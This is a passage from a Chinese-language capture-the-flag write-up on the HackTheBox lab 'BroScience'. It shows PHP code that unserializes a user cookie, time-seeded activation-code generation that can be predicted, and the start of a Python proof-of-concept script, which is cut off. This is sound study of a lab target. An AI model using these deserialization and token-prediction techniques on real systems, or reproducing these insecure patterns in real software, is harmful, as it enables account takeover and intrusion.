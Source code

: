 反序列化点

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
function get_theme_class($theme = null) {
    if (!isset($theme)) {
        $theme = get_theme();
    }
    if (strcmp($theme, "light")) {
        return "uk-light";
    } else {
        return "uk-dark";
    }
}
```

接下来找页面中哪个 php 调用了 `get_theme_class` 函数，发现页面很多处地方调用此函数

问题是，现在需要登录才能进入到我们需要的账号里面去，查看 register.php

生成一个 activation_code，需要这个才能成功进行验证

![](https://i.328888.xyz/2023/04/05/i8fuM8.png)

查看 activation_code 生成的逻辑。嗯，**`srand()` 是伪随机数，以 `time()` 时间戳作为种子，需要适当的写 poc 请求一下**

```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

写好的 poc 如下: **注意：php srand 伪随机数，使用 window 和 linux 操作系统的结果不相同，做题的时候坑了我好久，最后还是在 linux 上生成了一段校验码，才得以成功**

```python
import requests
import urllib3
import string
import time
import random
urllib3.disable_warnings()

getcode_url = "http://172.27.0.1/1.php" # 自己搭建一个 php 服务，用于生成校验码

target_url = "https://broscience.htb/register.php"


data = {
```